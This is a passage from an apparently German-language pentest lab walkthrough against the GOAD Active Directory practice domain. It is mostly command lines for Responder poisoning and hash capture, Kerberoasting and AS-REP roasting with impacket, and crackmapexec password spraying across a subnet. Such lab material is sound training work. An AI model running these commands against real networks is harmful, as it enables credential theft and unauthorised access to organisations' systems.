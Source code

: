 
## Phase 3: Delivery - Angriffsvektoren

### 1. LLMNR/NBT-NS Poisoning
```bash
# Responder starten (Terminal 1)
sudo responder -I eth0 -rdwv

# Hash-Capture überwachen
tail -f /usr/share/responder/logs/*

# Alternative: Hashcat-kompatible Hashes extrahieren
grep ":::" /usr/share/responder/logs/*.txt > captured_hashes.txt
```

### 2. Kerberoasting Preparation
```bash
# Service Principal Names (SPNs) enumerieren
python3 /usr/share/impacket/examples/GetUserSPNs.py \
  sevenkingdoms.local/guest -dc-ip 192.168.10.10 -no-pass

# Bekannte GOAD SPNs:
# - jon.snow (MSSQL Service)
# - HTTP/castelblack
```

### 3. ASREPRoasting Setup
```bash
# Users ohne Kerberos Pre-Authentication
python3 /usr/share/impacket/examples/GetNPUsers.py \
  sevenkingdoms.local/ -dc-ip 192.168.10.10 -no-pass -usersfile users.txt

# GOAD Target: brandon.stark (NoPreauth aktiviert)
echo "brandon.stark" > asrep_targets.txt
```

---

## Phase 4: Exploitation - Schwachstellen ausnutzen

### 1. Password Attacks

#### Password Spraying
```bash
# User-Liste aus Enumeration
cat > users.txt << EOF
jon.snow
eddard.stark
brandon.stark
arya.stark
sansa.stark
robb.stark
catelyn.stark
rickon.stark
hodor
jeor.mormont
samwell.tarly
EOF

# Common Password Patterns (GOAD-spezifisch)
crackmapexec smb 192.168.10.0/24 -u users.txt -p 'Winter2019' --continue-on-success
crackmapexec smb 192.168.10.0/24 -u users.txt -p 'password' --continue-on-success
crackmapexec smb 192.168.10.0/24 -u hodor -p 'hodor' # User=Password
```
